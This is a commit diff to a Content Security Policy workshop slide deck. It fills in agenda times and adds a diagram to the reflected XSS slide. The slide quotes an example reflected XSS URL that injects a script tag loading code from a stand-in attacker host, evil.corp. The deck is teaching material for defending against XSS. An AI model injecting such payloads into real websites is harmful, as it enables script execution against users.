

Before and after one commit to knut-erik/csp-workshop, a Markdown page: content/csp-presentation.md, 2 parts joined by grey strips. Rendered like a GitHub page; pictures changed too: content/resources/reflected_xss_diagram.png (added); blank space fills up the shorter version.

Commit message:
Added diagram for reflected xss attack

````diff
--- a/content/csp-presentation.md
+++ b/content/csp-presentation.md
@@ -52,10 +55,10 @@ style: |
               - What is CSP
               - How can we use CSP
-00:00 - 00:00 - CSP directives:
-              - `default-src`
-              - `script-src` - `style-src` - `font-src`
-              - `connect-src`
-              - Media directives - `img-src` and `media-src`
-00:00 - 00:00 - Reporting URI - logging violation issues
-              - `report-uri` directive
+09:30 - 11:00 - CSP directives - with a ☕️ break :
+              - "default-src"
+              - "script-src" - "style-src" - "font-src"
+              - "connect-src"
+              - Media directives - "img-src" and "media-src"
+11:00 - 11:30 - Reporting URI - logging violation issues
+              - "report-uri" directive
               - Migration approach for your existing project
@@ -107,14 +110,19 @@ There are several types of XSS:
 
 ---
 
-# Reflected XSS attack
+# Reflected XSS attack - 1 / 2
 
 Reflected XSS occurs when user input is immediately returned by a web application in an error message, search result, or any other response that includes some or all of the input provided by the user as part of the request, without that data being made safe to render in the browser, and without permanently storing the user provided data.
+
 
 Example:
 ```html
 https://insecure-web.com/comment?message=<script src=https//evil.corp/badscript.js></script>
 ```
+
+---
+
+![bg 70%](./resources/reflected_xss_diagram.png)
 
 ---
 
````
Also changed, not shown: other parts of content/csp-presentation.md (+10 -7 lines).
